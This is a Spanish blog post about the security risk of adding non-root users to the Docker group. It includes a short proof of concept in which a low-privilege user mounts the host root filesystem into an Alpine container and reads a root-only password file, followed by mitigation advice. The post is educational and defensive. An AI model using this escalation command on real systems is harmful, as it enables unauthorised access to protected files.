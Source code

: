 ```yaml
---
title: 'Docker puede ser un problema de seguridad en tu sistema'
date: '2022-02-13'
tags: ["Hacking", "Docker", "Vulnerabilities", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'Docker puede ser un problema de seguridad cuando se ejecuta como Root. Esto permite a usuarios sin privilegios acceder a archivos protegidos de root a través de contenedores. Es importante configurarlo correctamente y concienciar sobre los riesgos.'
images: ["/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/docker.webp", "/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-23.webp", "/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-24.webp"]
---
```


![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/docker.webp)

Docker nació (o mejor dicho, fue presentado al público) en la PyCon de 2013 en una charla titulada *"The future of Linux Containers"*. Recomiendo ver el video que aparece a continuación (son menos de 6 minutos) y disfrutar del hecho de que en la informática, estamos viviendo lo que en un futuro será la "historia del desarrollo de software".

Y es que los *Albert Einstein* del software como *[Linus Torvalds](https://es.wikipedia.org/wiki/Linus_Torvalds), [Robert C. Martin](https://es.wikipedia.org/wiki/Robert_C._Martin), [Martin Fowler](https://martinfowler.com/), [Guido Van Rossum](https://es.wikipedia.org/wiki/Guido_van_Rossum)* o muchos de los inventores de lenguajes de programación que se encuentran en el 99% del software que utilizamos, están vivos a día de hoy.

<iframe width="560" height="315" src="https://www.youtube.com/embed/wW9CAH9nSLs?si=4v4fJABw8RGeiaH4" title="YouTube video player" frameBorder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowFullScreen></iframe>

Pero volviendo al tema de Docker. Docker no trajo consigo la tecnología de contenedores que se usa en Linux. Esto es algo que lleva existiendo desde [hace más de 20 años](https://blog.aquasec.com/a-brief-history-of-containers-from-1970s-chroot-to-docker-2016) con diferentes nombres como Chroot en 1979, Jails en el 2000 y contenedores a partir de 2004. Pero no fue hasta el 2013 cuando esta tecnología se empezó a utilizar por la mayoría de la gente.

La verdadera ventaja que trajo Docker, fue la posibilidad de intercambiar imágenes de contenedores entre sistemas de una forma sencilla con los manifiestos Dockerfile y todo el ecosistema de alrededor. Pero no está libre de ser juzgado por mucha gente.

**Uno de los problemas que se le achaca a Docker es que Docker Daemon se ejecuta como Root.** Y esto trae implicaciones indirectas como veremos a continuación.

Cuando instalamos Docker siguiendo el tutorial su [página oficial](https://docs.docker.com/engine/install/ubuntu/), nos invita a seguir un proceso post-instalación en la [siguiente página](https://docs.docker.com/engine/install/linux-postinstall/) donde nos enseñan que **podemos ejecutar Docker sin permisos de root, metiendo a un usuario normal al grupo de Docker**. Y es que aquí está la clave del problema. Podemos llegar a pensar que ejecutar Docker con un usuario normal es más seguro, cuando eso no cambia nada y de hecho, te da una sensación de seguridad que puede resultarte caro como veremos en la prueba de concepto.

Por romper una lanza a favor de ellos, en esa misma página podemos encontrar el cuadro a continuación.

![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-23.webp)

Y es que si, todos (o al menos yo alguna vez) solemos pasar por alto este tipo de mensajes si es que hemos llegado a verlos, porque en la mayoría de los blogs donde nos enseñan a instalar Docker en nuestro sistema directamente no nos previenen del riesgo de tener un usuario "sin privilegios" en el grupo de Docker. Además, "eso de Daemon Attack Surface a mi me suena a chino" 😎.

# Prueba de concepto

## 1. Contexto del problema

Tenemos 2 usuarios en nuestro sistema, **root** y **demo**.


```
──[root@parrot]─[/root]──# id
uid=0(root) gid=0(root) grupos=0(root)
```

```
──[demo@parrot]─[/home/demo]$ id
uid=1001(demo) gid=1003(demo) grupos=1003(demo),1000(docker)
```
Como vemos, demo está en el grupo Docker para poder lanzar contenedores y realizar su gestión. Como demo es un usuario con pocos privilegios, además, es un poco con el que solemos hacer todo pensando que así estamos más seguros.

## 2. El archivo "protegido" de root

Hay un archivo en /home que se llama password.txt. Este archivo, en principio, tiene permisos 400 para que solo el usuario root pueda leer su contenido.


```
──[root@parrot]─[/home]──# ls -l
total 4
drwxr-xr-x 1 demo demo 204 Feb 13 21:00 demo
-r-------- 1 root root  16 Feb 13 21:03 password.txt
drwxr-xr-x 1 user user 614 Feb 13 19:53 user
```
![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-24.webp)

Si no conoces como funcionan los permisos de Linux no pasa nada, simplemente créete la siguiente afirmación de lo que ocurre.

**Ningún otro usuario, ni grupo del sistema, puede acceder al contenido del archivo password.txt con los permisos actuales.**

Si aún así intentamos leer su contenido con el usuario demo, vemos el siguiente error.


```
──[demo@parrot]─[~/demo]───$ cat /home/password.txt 
cat: /home/password.txt: Permiso denegado
```
Hasta aquí todo bien, ¿correcto?

## 3. Docker Daemon Attack Surface

A continuación, el usuario demo, el que no tenía privilegios, el que no podía leer el contenido de root, crea un contenedor del siguiente modo.


```
──[demo@parrot]─[~/demo]───$ docker run -v /:/vulnerable -it alpine /bin/sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
/ #
```
Y una vez, dentro del contenedor, empieza la magia 🧙‍♂️.


```
/ # whoami
root
/ # cat vulnerable/home/password.txt
P0wn3dP@ssw0rd!
```
Es decir, un usuario sin privilegios, fuera del contexto de los contenedores no teníamos acceso a los archivos que root controlaba. 

Dentro del contexto de los contenedores, si mapeamos en un volumen la raíz de todo el disco a una ruta del contenedor, tendremos control total de los archivos del sistema.

## 4. Conclusión

¿Es el título del post clickbait? En parte sí. Más que una vulnerabilidad es un problema de no tener las cosas bien configuradas. 

¿La página oficial de Docker podría explicar el problema o señalarlo de una mejor forma? Seguro que también.

La realidad es que ellos no tienen la culpa. En su misma página explican todo esto. Y la realidad también es que poca gente es conocedora de este problema de "mala configuración". Es responsabilidad de todos hacer pedagogía y explicarles a nuestros compañeros los riesgos que acarrea según que cosas y yo, con este post, dejo mi granito de arena.

¿Cómo deberías mitigar esto? Teniendo en mente que el usuario con el que gestionas Docker es como un usuario root. Protégelo con una buena contraseña y aíslalo del resto de cosas que haces en el sistema.

